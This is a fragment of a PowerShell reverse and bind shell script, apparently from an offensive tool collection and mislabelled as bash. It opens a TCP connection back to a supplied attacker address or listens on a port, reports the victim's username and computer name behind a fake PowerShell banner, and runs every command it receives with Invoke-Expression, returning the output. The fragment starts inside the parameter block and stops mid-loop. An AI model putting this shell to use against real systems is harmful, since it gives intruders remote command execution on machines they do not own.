 ```bash hl_lines="18 127"
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x
```